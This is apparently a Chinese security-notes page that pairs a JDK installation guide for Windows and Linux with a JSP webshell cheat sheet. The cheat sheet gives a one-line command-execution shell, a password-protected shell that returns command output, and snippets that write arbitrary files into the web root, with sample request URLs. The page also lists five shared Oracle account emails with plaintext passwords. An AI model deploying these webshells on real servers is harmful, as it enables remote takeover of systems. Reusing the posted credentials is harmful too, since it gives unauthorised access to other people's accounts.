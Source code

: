 ```yaml
---
date: 2024-10-29
title: Java/JSP环境搭建与安全相关操作全解析
authors: [SecCMD]
description: >
 全面介绍Java/JSP开发相关内容，涵盖自动化与手动安装JDK的详细步骤，包括Windows和Linux系统下的安装方法，还提供Java下载地址及特殊账号。同时深入讲解Java/JSP安全相关操作，如无回显与有回显的命令执行、文件写入及编码原理等，为Java开发者及安全从业者提供一站式知识服务。
categories: 编程开发, 网络安全
tags:
  - Java
  - JSP
  - JDK安装
  - 命令执行
  - 文件写入
  - 网络安全
  - 编程开发
---
```


# Java/JSP

### 自动化安装脚本
```
curl -o jdk-18_windows-x64_bin.exe  https://d6.injdk.cn/oraclejdk/18/jdk-18_windows-x64_bin.exe
jdk-18_windows-x64_bin.exe /s
# 静默安装完成，需要重新打开一个 CMD 窗口。
java -version 
echo %PATH%
echo %JAVA_HOME%
# 参考 Java 18 Silent Install https://silentinstallhq.com/java-18-silent-install-how-to-guide/
```

### Windows 手动安装 JDK（主要提升Win安装效率）
```
http://www.codebaoku.com/jdk/jdk-install-windows.html
1. 下载完成后双击jdk-8u271-windows-x64.exe文件。
2. 环境变量的配置 JAVA_HOME CLASSPATH PATH
```

## Linux 安装JDK （首先使用 apt yum方式）
```
http://www.codebaoku.com/jdk/jdk-install-linux.html
mkdir /usr/java/
tar -zxvf jdk-8u171-Linux-x64.tar.gz -C /usr/java/
#//环境变量在将会在 /etc/profile 文件中配置，为了防止配置错误，建议先将改文件负责进行备份。
#//备份 /etc/profile 文件
cp /etc/profile /etc/profile.bak
#//编辑 profile 文件，输入 vi /etc/prifle ，然后定位到这个文件的最后面。再按住字母 o ，开启编辑模式。
#//复制下面的内容粘贴到vi编辑器（注意 JAVA_HOME 这个路径，应该写成你刚刚解压的目录）。
export JAVA_HOME=/usr/local/java/jdk1.8.0_171
export JRE_HOME=${JAVA_HOME}/jre
export CLASSPATH=.:${JAVA_HOME}/lib:${JRE_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH
#//让 /etc/profile 文件生效，
source /etc/profile    
#//检查是否配置成功，如果现实了版本信息，那么则证明配置成功。
javac -version
```

###  Java 下载地址
```
（0）http://www.codebaoku.com/jdk/jdk-index.html
（1）TUNA镜像 https://mirrors.tuna.tsinghua.edu.cn/AdoptOpenJDK/
（2）HUAWEI镜像 https://repo.huaweicloud.com/java/jdk/
（3）injdk https://www.injdk.cn/
```

### Oracle 共享账号 用于JDK下载
```
http://www.codebaoku.com/jdk/jdk-oracle-account.html

账号	密码
bnptrhinldfoguijh@mytrashmailer.com	#&qRfvE7rg37GhjEfDJy
sosen65433@kahase.com	SuckMyDick123!@#
erfede@yopmail.com	Bellapete!1
mqkpexeozyceyccghg@nthrl.com	weLgKcEdnc8PGua/
ttauern@trash-mail.com	nhXpiFpk3KztJ43
```

### 一、无回显的命令执行（命令执行后不会在前端页面返回数据）


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


### 二、有回显带密码的命令执行（命令执行后会在前端返回数据）

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



### 三、文件写入（改写目标服务器里的文件,若文件不存在则创建）

```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


### 四、编码相关

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk
